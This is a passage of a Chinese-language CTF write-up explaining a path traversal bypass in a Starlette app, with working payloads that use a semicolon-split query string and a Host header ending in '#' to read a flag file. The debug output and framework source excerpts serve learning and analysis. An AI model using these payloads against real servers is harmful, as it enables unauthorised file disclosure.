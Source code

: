 `request.url` 會直接是 raw URL，沒有 decode 過，然後 `request.url.query` 也是沒 decode 過的版本，到了 `request.query_params` 的時候則是被解析成了兩個 params:

1. id=flag
2. %2F..%2f=

看起來是因為分號 `;` 的關係，所以就算不用 `&` 也可以創造出兩個 params。

而最後在 `request.query_params.keys()` 的時候被 decode，所以最後合起來就會是 `./memo/id..//flag`。

不過在 Discord 上看到其實這樣就好了：`id=flag;/%2e%2e`，結果會是：

``` py
request.url: http://0.0.0.0:11000/view?id=flag;/%2e%2e
request.url.query id=flag;/%2e%2e
params: id=flag&%2F..=
unquote params: flag
filename: flag
keys: dict_keys(['id', '/..'])
path: ./memo/id/../flag
```

接著也在 Discord 看到另一個不同的解法（來自 bbangjo#3967），是利用 Host header：

```
GET http://0.0.0.0:11000/view?id=flag&/..
Host: 0.0.0.0#
```

就會產生神奇的結果：

```
request.url: http://0.0.0.0#/view?id=flag&/..
request.url.query
params: id=flag&%2F..=
unquote params: flag
filename: flag
keys: dict_keys(['id', '/..'])
path: ./memo/id/../flag
```

雖然 `request.url.query` 整個變不見了，但是 `request.query_params` 卻還是有東西，因此就繞過了針對 `request.url.query` 的檢查。

根據他的說法，因為 `request.url` 是從 Host header 構造而來的，我們可以翻一下程式碼來驗證，如果沒找錯的話應該是在這：[starlette/datastructures.py#L38](https://github.com/encode/starlette/blob/b1ae0c3621034f1531b9983389ce90be8d140bc6/starlette/datastructures.py#L38)：

``` py
if host_header is not None:
  url = f"{scheme}://{host_header}{path}"
```

因為 Host 被加了個 `#`，所以後面的 query string 就被當成 fragment 來解析了，而不是 query string，所以 `request.url.query` 就會是空的。

那為什麼 `request.query_params` 有東西呢？因為它是直接拿最原始的 query string，而不是 `request.url.query`，在這邊：[starlette/requests.py#L116](https://github.com/encode/starlette/blob/6182d0a0bc7e5817197d2919b18d67f70e3a71d1/starlette/requests.py#L116)
